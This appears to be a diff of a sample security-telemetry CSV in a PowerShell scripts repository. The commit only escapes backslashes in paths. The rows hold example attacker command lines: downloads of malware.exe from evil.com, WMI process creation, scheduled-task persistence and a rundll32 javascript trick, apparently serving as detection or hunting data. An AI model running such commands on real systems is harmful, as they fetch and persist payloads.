

Before and after one commit to helloitsliam/PowerShellScripts, a CSV file: Microsoft-365/Data/Data.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Microsoft-365/Data/Data.csv
+++ b/Microsoft-365/Data/Data.csv
-E28 (ProcessCommandLine): …call create 'C:\temp\malware.exe'
+E28 (ProcessCommandLine): …call create 'C:\\temp\\malware.exe'
-G28:G30 (FolderPath): C:\Windows\system32
+G28:G30 (FolderPath): C:\\Windows\\system32
-E30 (ProcessCommandLine): …-f http://evil.com/malware.exe C:\temp\malware.exe
+E30 (ProcessCommandLine): …-f http://evil.com/malware.exe C:\\temp\\malware.exe
-K31: Su C:\temp\malicious.bat
+K31: Su C:\\temp\\malicious.bat
-M31: C:\Windows\system32
+M31: C:\\Windows\\system32
-G32 (FolderPath): C:\Windows\system32
+G32 (FolderPath): C:\\Windows\\system32
-G33 (FolderPath): C:\Windows\System32\WindowsPowerShell\v1.0
+G33 (FolderPath): C:\\Windows\\System32\\WindowsPowerShell\\v1.0
-G34:G35 (FolderPath): C:\Windows\system32
+G34:G35 (FolderPath): C:\\Windows\\system32
-E35 (ProcessCommandLine): …task /tr "C:\malware\task.exe" /sc minute…
+E35 (ProcessCommandLine): …task /tr "C:\\malware\\task.exe" /sc minute…
-E36 (ProcessCommandLine): rundll32.exe javascript:"\..\mshtml
+E36 (ProcessCommandLine): rundll32.exe javascript:"\\..\\mshtml
-H36 (EventType): C:\Windows\system32
+H36 (EventType): C:\\Windows\\system32
-E37 (ProcessCommandLine): …foreground https://evil.com/malware.exe C:\temp\malware.exe
+E37 (ProcessCommandLine): …foreground https://evil.com/malware.exe C:\\temp\\malware.exe
-G37:G38 (FolderPath): C:\Windows\system32
+G37:G38 (FolderPath): C:\\Windows\\system32
-E38 (ProcessCommandLine): …call create 'C:\temp\malware.exe'
+E38 (ProcessCommandLine): …call create 'C:\\temp\\malware.exe'
-G40 (FolderPath): C:\Windows\system32
+G40 (FolderPath): C:\\Windows\\system32
```
Also changed, not shown: 61 edited cells elsewhere in this file, 11 other files.
